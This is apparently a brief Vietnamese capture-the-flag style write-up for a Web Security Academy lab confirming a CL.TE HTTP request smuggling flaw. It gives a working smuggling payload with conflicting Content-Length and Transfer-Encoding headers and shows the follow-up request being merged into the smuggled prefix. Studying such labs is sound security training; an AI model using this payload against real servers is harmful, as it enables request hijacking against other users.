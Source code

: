 ## HTTP request smuggling, confirming a CL.TE vulnerability via differential responses

1. Xác định CL.TE vulnerability với payload (chuyển về http/1.1):
```
Content-Length: 49
Transfer-Encoding: chunked

e
q=smuggling&x=
0

GET /404 HTTP/1.1
Foo: x
```

![image](https://user-images.githubusercontent.com/80744099/226990949-87e2087c-d277-4efa-95f1-13c337f29acb.png)


2. Gửi request lần 2 thì phần request bị cắt trong lần 1 sẽ ghép với request thứ 2.

```
GET /404 HTTP/1.1
Foo: xPOST / HTTP/1.1
Host: 0a28009704f1b4f0c257dfcd00e10061.web-security-academy.net
...
```
